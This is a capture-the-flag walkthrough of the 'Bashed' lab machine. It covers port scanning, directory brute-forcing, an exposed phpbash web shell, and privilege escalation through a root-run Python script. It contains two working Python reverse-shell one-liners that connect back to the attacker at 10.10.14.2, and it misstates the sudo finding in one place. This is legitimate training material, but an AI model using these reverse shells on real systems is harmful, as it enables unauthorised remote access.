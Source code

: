 # Bashed - Linux, easy (10.10.10.68)

### Nmap scan:
```
PORT   STATE SERVICE VERSION
80/tcp open  http    Apache httpd 2.4.18 ((Ubuntu))
|_http-title: Arrexel's Development Site
|_http-server-header: Apache/2.4.18 (Ubuntu)
```

### Obtaining User
The page at port 80 is a blog with one post that talks about **phpbash**.

So, let's first run gobuster to see how the site looks like:
```
gobuster dir -u http://10.10.10.68 -w /usr/share/wordlists/dirbuster/directory-list-lowercase-2.3-medium.txt
```

An interesting result is the directory **/dev**, that contains file **phpbash.php**.
This is essentially a php bash shell that we can utilize to execute commands on the target.
At this point we can obtain the user flag even if we are user www-data.

### From User to Root
First, get a reverse shell by executing on the phpbash `python -c 'import socket,os,pty;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect(("10.10.14.2",6666));os.dup2(s.fileno(),0);os.dup2(s.fileno(),1);os.dup2(s.fileno(),2);pty.spawn("/bin/sh")'` and setting up a netcat listener.

With `sudo -l` we can notice that the user **scriptmanager** can run anything as user root, so we can essentially do what we want by just executing `sudo -u scriptmanager <command>`.
We can a shell as user scriptmanager with `sudo -u scriptmanage /bin/bash`.
This user has access to a folder caller **/scripts**:
```
scriptmanager@bashed:/scripts$ ls -l
total 8
-rw-r--r-- 1 scriptmanager scriptmanager 58 Dec  4 17:03 test.py
-rw-r--r-- 1 root          root          12 Mar  7 04:09 test.txt
```

The python script simply prints somehing into the text file, which is owned by user root!
First, I tried to modify the string printed by test.py and after a few moment I noticed that the content of test.txt was changed, so the script is being executed (maybe with a cronjob?).

So, in order to get the shell as user root just overwrite test.py with a python reverse shell `import socket,subprocess,os;s=socket.socket(socket.AF_INET,socket.SOCK_STREAM);s.connect((\"10.10.14.2\",4444));os.dup2(s.fileno(),0); os.dup2(s.fileno(),1); os.dup2(s.fileno(),2);p=subprocess.call([\"/bin/sh\",\"-i\"]);`, and listen on your host with a netcat listener.

